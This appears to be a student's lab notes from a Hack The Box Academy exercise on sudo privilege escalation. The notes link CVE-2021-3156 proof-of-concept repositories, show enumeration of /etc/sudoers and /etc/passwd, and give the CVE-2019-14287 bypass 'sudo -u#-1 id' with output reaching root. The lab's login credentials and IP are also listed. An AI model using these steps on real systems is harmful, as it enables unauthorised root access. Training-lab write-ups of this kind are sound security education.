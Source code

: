 # SUDO

- The latest sudo vulnerability is [CVE-2021-3156](https://github.com/worawit/CVE-2021-3156)
- Here is a [Proof-of-Concept](https://github.com/blasty/CVE-2021-3156)

The following will list which users and/or groups are allowed to run which programs with what privileges
``` python
sudo cat /etc/sudoers | grep -v "#" | sed -r '/^\s*$/d'
```

Determine sudo version
``` python
sudo -V | head -n1
```

Determine OS Version
```python
cat /etc/lsb-release

DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=20.04
DISTRIB_CODENAME=focal
DISTRIB_DESCRIPTION="Ubuntu 20.04.1 LTS"
```

## Sudo Policy Bypass

[CVE-2019-14287](https://www.sudo.ws/security/advisories/minus_1_uid/) This sudo vulnerability affects all versions below 1.8.28 .

The only pre-req for this exploit is the user having to be in the /etc/sudoers file. 

Sudo also allows commands to be executed with a users ID. The users ID can be found in the /etc/passwd file like so. The ID being ==1005==
```python
cat /etc/passwd | grep cry0l1t3

cry0l1t3:x:1005:1005:cry0l1t3,,,:/home/cry0l1t3:/bin/bash
```

If a negative ID is entered as sudo, this will default to 0, the root user
```python
sudo -u#-1 id

root@nix02:/home/cry0l1t3# id

uid=0(root) gid=1005(cry0l1t3) groups=1005(cry0l1t3)
```

# Questions

Username
```python
htb-student
```

Password
```python
HTB_@cademy_stdnt!
```

IP
```python
10.129.205.110
```

Hostname
```python
ACADEMY-LLPE-SUDO
```

SSH
```python
ssh htb-student@ACADEMY-LLPE-SUDO
```
## Enumeration

Enumerating sudo version. This isn't one of the versions affected by CVE-2021-3156
```
$ sudo -V | head -n1
Sudo version 1.8.21p2
```



